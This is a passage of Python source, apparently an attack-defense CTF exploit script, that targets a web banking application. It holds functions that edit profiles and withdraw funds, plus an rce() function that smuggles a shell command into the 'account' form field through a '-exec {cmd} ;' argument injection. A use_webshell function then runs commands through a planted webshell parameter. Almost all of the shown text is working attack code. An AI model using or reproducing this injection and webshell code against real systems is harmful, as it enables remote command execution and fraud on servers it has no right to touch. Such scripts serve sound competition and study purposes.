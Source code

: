```bash
    m = float(m.strip())
    if 'Edit profile success' in response.content:
        print('Edit profile success!')
        return True, m
    print("Edit profile Failed!")
    return False, m


def cash_out(target, amount='5000', username='moxiaoxi'):
    paramsGet = {"op": "cash_out", "action": "bank"}
    paramsPost = {"amount": amount, "submit": "Submit", "account": username}
    headers = {"Origin": "https://10.0.15.5",
               "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3",
               "Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1",
               "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.80 Safari/537.36",
               "Referer": "https://10.0.15.5/?action=bank&op=cash_out", "Connection": "close",
               "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8",
               "Content-Type": "application/x-www-form-urlencoded"}
    response = session.post("https://{}/".format(target), data=paramsPost, params=paramsGet, headers=headers)

    # print("Status code:   %i" % response.status_code)
    # print("Response body: %s" % response.content)
    if 'The withdrawal log' in response.content:
        print("Withdrawal Succ!")
        return True
    print("Withdrawal Failed!")
    return False


def rce(target, amount='5000', username='moxiaoxi', cmd='sleep 2'):
    paramsGet = {"op": "cash_out", "action": "bank"}
    end_cmd = username + ' -exec {} ;'.format(cmd)
    print(end_cmd)
    paramsPost = {"amount": amount, "submit": "Submit", "account": end_cmd}
    headers = {"Origin": "https://10.0.15.5",
               "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3",
               "Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1",
               "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.80 Safari/537.36",
               "Referer": "https://10.0.15.5/?action=bank&op=cash_out", "Connection": "close",
               "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8",
               "Content-Type": "application/x-www-form-urlencoded"}
    response = session.post("https://{}/".format(target), data=paramsPost, params=paramsGet, headers=headers)

    # print("Status code:   %i" % response.status_code)
    # print("Response body: %s" % response.content)
    if 'The withdrawal log' in response.content:
        print("RCE Succ!")
        return True
    print("RCE Failed!")
    return False


def use_webshell(target,cmd):
    session = requests.Session()
    paramsGet = {"moxiaoxi": cmd}
    headers = {"Cache-Control": "max-age=0",
```